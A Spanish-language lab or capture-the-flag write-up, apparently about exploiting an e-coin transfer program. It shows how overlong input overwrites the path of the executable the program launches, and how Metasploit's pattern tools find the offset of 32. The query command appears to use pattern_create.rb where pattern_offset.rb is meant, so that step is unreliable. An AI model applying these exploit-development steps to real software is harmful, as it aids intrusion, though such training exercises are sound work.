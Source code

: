 Si lanzamos el script, encontramos el pin.

Vemos que podemos ejecutar transferencia de e-coin con este programa, intentamos cosas

```bash
Please enter the amount of e-coins you would like to transfer:
[$] 10
[$] Transfering $10 using our e-coin transfer application.
[$] Executing e-coin transfer tool: C:\Users\Documents\transfer.exe

Please enter the amount of e-coins you would like to transfer:
[$] asfessefseafews
[$] Transfering $asfessefseafews using our e-coin transfer application.
[$] Executing e-coin transfer tool: C:\Users\Documents\transfer.exe

Please enter the amount of e-coins you would like to transfer:
[$] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[$] Transfering $AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA using our e-coin transfer application.
[$] Executing e-coin transfer tool: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Aqui no parece que estamos frente a un BufferOverflow pero vemos que a partir de una serie de caracteres, sobre escribimos el ejecutable que permite
enviar los e-coins.

1. Creamos un pattern

    ```bash
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
    #Output
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
    ```

1. Lanzamos el ejecutable con esta cadena

    ```bash
    Please enter your super secret 4 digit PIN code to login:
    [$] 0021
    [$] PIN is correct, access granted!
    Please enter the amount of e-coins you would like to transfer:
    [$] Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
    [$] Transfering $Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A using our e-coin transfer application.
    [$] Executing e-coin transfer tool: 0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
    ```

1. Miramos el offset

    ```bash
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -q 0Ab1
    #Output
    [+] Exact match at offset 32
    ```
